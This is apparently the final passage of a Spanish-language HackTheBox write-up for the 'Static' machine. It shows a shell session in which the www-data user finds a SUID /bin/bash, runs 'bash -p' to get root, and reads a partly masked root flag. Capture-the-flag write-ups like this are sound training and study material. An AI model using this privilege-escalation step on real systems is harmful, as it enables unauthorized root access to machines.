 ```bash
www-data@pki:/tmp$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1113504 Jun  6  2019 /bin/bash
www-data@pki:/tmp$ bash -p
bash-4.4# cat /root/root.txt 
0aa40d05f67137938***************
```

Hemos completado la máquina **Static** de HackTheBox!! Happy Hacking!!

<img src="/assets/HTB/Static/pwned.png">